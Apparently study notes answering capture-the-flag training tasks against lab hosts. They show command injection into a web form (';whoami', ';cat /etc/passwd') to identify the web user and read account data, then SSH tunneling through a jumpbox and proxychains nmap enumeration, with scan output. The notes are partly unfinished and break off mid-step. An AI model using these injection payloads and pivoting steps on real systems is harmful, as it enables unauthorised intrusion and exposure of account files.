Identify the user that the MI website is running as and relevant information about their user account configuration.

##### Answer ####

1. Go to the industry check page, has forms, that is most vulnerable -> http://10.100.28.40/net_test/industry_check.php
2. find out which of the pages can run commands e.g. ;whoami and look for the output. the second box lists billybob is the user. 
3. Path to test is identified. run 
4. Run `;cat /etc/passwd` to see the password of users 
5. View source page -> to the bottom of the page, you will see you "you found me and the flag .....7H0s83......."

### Basic HTTP Understanding 5 ###

Training Website

We have an asset that is trying to gain employment into the Ministry, however intelligence does not know the IP address of training web site. Our asset has stated that the training site may only be communicated with from the Ministry web site. We have reason to believe that the MI website might have a message saved inside the web server directory. Once we have located the address analyze that website and determine how to produce a certificate of completion, utilizing the Cyber Training Portal.

The flag will be dumped when successful

##### Answer ####

proxychains nmap -Pn -sT 10.100.28.40 -p 80 --script http-enum.nse

nmap ip 192.168.28.97-100, 100,105,111,120 -pm


2. Create a local tunnel to 10.100.28.40
    -> check if 4444 is an ssh port, `proxychains nmap -p 4444 -sV 10.100.28.40`
    -> `ssh student@10.50.49.22 -L 1222:10.100.28.40:4444`


3. Create a dynamic tunnel to the jumpbox 
    -> `ssh student@localhost -p 1222 -D 9050`
4. From running `proxychains nmap -Pn -sT 10.100.28.40 -p 80 --script http-enum.nse`
    -> Found

    PORT   STATE SERVICE
    80/tcp open  http
    | http-enum: 
    |   /robots.txt: Robots file
    |   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    |   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    |_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'


5. www-data:x:33:33:www-data:/var/www:/bin/bash -> The directory 
6. Find out where the pub directory is -> 
